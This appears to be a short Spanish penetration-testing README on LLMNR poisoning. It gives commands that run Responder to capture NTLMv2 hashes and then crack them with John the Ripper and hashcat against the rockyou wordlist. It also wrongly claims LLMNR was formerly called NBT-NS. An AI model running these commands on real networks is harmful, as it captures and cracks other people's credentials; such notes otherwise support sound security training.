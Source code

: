 # Qué es LLMNR?

- Se usa para identificar hosts cuando el DNS falla.
- Antes se conocía como `NBT-NS`
- El servicio utiliza el `username` de un usuario y un `Hash NTLMv2` cuando responde.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Iniciando Ataque (Responder)

```
python /usr/share/responder.py -I tun0 -rdw
```

[Ver el Responder en proceso](Images/Responder/README.md)

[Ver la obtención de Hash NTMLv2](Images/Hash/README.md)

# Romper el Hash (JohnTheRipper)

```
john --wordlist=/usr/share/wordlists/rockyou.txt <hashfile>
```

# Romper el Hash (Hashcat)

```
hashcat -m 5600 <hashfile> rockyou.txt --force
```

